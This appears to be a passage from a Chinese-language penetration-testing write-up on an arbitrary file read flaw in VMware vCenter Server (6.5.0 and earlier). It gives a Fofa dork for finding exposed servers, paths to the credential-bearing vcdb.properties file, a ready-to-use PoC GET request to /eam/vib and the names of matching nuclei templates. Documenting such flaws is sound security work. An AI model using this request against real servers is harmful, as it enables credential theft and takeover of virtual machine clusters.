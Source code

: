 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print](assets/1708572547-44c93f691f10c6852af10f00b98f0bd4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print")

### [](#22-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)2.2 任意文件读取

影响版本：`Vmware vCenter Server <= 6.5.0`

Fofa Dork:`title="ID_VC_Welcome"`

VMware vCenter 存在任意文件读取漏洞，可读取 vCenter 配置文件获得管理帐号密码进而控制 vCenter 平台及其管理的虚拟机集群。

由于 EAM 用户运行该存在漏洞的服务（非域用户），因此不存在 NTLM Relay 等中继攻击风险。

由于不同的系统版本，数据库配置文件（`vcdb.properties`）存放位置不同，根据[官方文档](https://kb.vmware.com/s/article/7960893?lang=zh_cn)，大体可以分为：

-   对于 vCenter Server 5.5 及更低版本：
    -   Windows 2008 - `C:\ProgramData\VMware\VMware VirtualCenter`
    -   其他 Windows 版本 - `C:\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\`
-   对于 vCenter Server 6.0、6.5、6.7：
    -   `C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx`

POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /eam/vib?id={{path}}\vcdb.properties HTTP/1.1<br>Host: {{Hostname}}<br>``` |

nuclei 中对应的 poc：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi.yaml`
-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi-linux.yaml`
